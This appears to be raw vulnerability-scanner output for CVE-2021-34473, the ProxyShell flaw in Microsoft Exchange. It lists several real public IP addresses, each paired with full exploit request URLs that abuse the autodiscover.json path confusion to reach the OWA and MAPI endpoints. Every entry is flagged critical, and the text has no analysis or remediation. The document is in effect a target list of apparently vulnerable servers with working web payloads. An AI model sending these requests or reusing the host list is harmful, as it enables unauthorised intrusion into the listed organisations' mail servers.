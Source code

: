 ## 178.212.183.232  
  
---  
[CVE-2021-34473] [http] [critical] https://178.212.183.232/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://178.212.183.232/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.238.114.162  
  
---  
[CVE-2021-34473] [http] [critical] https://178.238.114.162/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://178.238.114.162/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.238.116.106  
  
---  
[CVE-2021-34473] [http] [critical] https://178.238.116.106/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://178.238.116.106/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.249.69.117  
  
---  
[CVE-2021-34473] [http] [critical] https://178.249.69.117/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://178.249.69.117/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.34.154.136  
  
---  
[CVE-2021-34473] [http] [critical] https://178.34.154.136/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://178.34.154.136/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.57.79.153  
  
---  
[CVE-2021-34473] [http] [critical] https://178.57.79.153/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  